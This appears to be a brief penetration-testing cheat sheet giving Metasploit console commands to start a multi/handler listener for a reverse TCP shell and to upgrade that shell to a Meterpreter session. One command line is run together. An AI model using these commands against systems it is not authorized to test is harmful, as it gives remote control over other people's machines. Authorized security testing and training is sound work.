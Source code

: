 # Metasploit Shells

Quick Commands

#### Reverse TCP Shell <a href="#reverse-tcp-shell" id="reverse-tcp-shell"></a>

```bash
use exploit /multi/handler
set Lport <custom port not being used ex. 5557>
set LHOST <host kali/vm ip>
exploit
```

#### Elevating the shell to Meterpreter <a href="#elevating-the-shell-to-meterpreter" id="elevating-the-shell-to-meterpreter"></a>

```bash
use post/multi/manage/shell_to_meterpreter
show optionssessions -i
set <session number with reverse shell>
set lport <not being used port ex. 5559>
exploit
```

